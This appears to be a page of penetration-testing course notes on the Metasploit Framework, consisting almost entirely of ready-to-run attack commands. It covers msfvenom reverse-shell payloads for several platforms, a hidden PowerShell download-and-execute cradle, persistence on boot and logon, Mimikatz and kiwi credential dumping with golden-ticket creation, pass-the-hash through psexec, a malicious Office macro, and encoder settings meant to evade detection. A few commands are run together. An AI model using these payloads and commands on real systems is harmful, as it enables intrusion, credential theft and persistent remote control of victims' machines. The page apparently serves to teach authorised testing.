 # Module 22 (Metasploit Framwork)

### Meterpreter - Basic <a href="#meterpreter-basic" id="meterpreter-basic"></a>

#### Generate a meterpreter <a href="#generate-a-meterpreter" id="generate-a-meterpreter"></a>

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp 
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
```

### Meterpreter Webdelivery <a href="#meterpreter-webdelivery" id="meterpreter-webdelivery"></a>

Set up a Powershell web delivery listening on port 8080.

{% code overflow="wrap" %}
```bash
use exploit/multi/script/web_deliveryset 
TARGET 2
set payload windows/x64/meterpreter/reverse_http 
set LHOST 10.0.0.1
set LPORT 4444
run
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
powershell.exe -nop -w hidden -c $g=new-object net.webclient;$g.proxy=[Net.WebRequest]::GetSystemWebProxy();$g.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $g.downloadstring('http://10.0.0.1:8080/rYDPPB');
```
{% endcode %}

### Persistence Startup <a href="#persistence-startup" id="persistence-startup"></a>

```bash
use exploit/windows/local/persistence
OR
OPTIONS:

-A        Automatically start a matching exploit/multi/handler to connect to the agent
-L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
-P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
-S        Automatically start the agent on boot as a service (with SYSTEM privileges)
-T <opt>  Alternate executable template to use
-U        Automatically start the agent when the User logs on
-X        Automatically start the agent when the system boots
-h        This help menu
-i <opt>  The interval in seconds between each connection attempt
-p <opt>  The port on which the system running Metasploit is listening
-r <opt>  The IP of the system running Metasploit listening for the connect back
meterpreter > run persistence -U -p 4242
```

### Network Monitoring <a href="#network-monitoring" id="network-monitoring"></a>

```bash
#list interfaces 
run packetrecorder -li 
# record interface n°1
run packetrecorder -i 1
```

### Port forward <a href="#portforward" id="portforward"></a>

```
portfwd add -l 7777 -r 172.17.0.2 -p 3006
```

#### Upload / Download <a href="#upload-download" id="upload-download"></a>

```
upload /path/in/hdd/payload.exe exploit.exedownload /path/in/victim
```

#### Execute from Memory <a href="#execute-from-memory" id="execute-from-memory"></a>

```bash
execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w
```

#### Mimikatz <a href="#mimikatz" id="mimikatz"></a>

```bash
load mimikatz
mimikatz_command -f version
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::wdigest
mimikatz_command -f sekurlsa::searchPasswords
mimikatz_command -f sekurlsa::logonPasswords full
```

```
load kiwi
creds_all
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
```

#### Pass the Hash - PSExec <a href="#pass-the-hash-psexec" id="pass-the-hash-psexec"></a>

```bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > exploit
```

#### Use SOCKS Proxy <a href="#use-socks-proxy" id="use-socks-proxy"></a>

```
setg Proxies socks4:127.0.0.1:1080
```

### Scripting Metasploit <a href="#scripting-metasploit" id="scripting-metasploit"></a>

Using a `.rc file`, write the commands to execute, then run `msfconsole -r ./file.rc`. Here is a simple example to script the deployment of a handler an create an Office doc with macro.

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 0.0.0.0set LPORT 4646
set ExitOnSession false
exploit -j -z
use exploit/multi/fileformat/office_word_macro
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.10.14.22
set LPORT 4646
exploit
```

### Multiple transports <a href="#multiple-transports" id="multiple-transports"></a>

```
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

Then, in AddTransports.ps1

```bash
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http(s)://<host>:<port>/<luri> -RetryWait 10 -RetryTotal 30
```

### Automation

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z
```

```bash
sudo msfconsole -r setup.rc
```

privEsc

```bash
post/multi/manage/shell_to_meterpreter
```
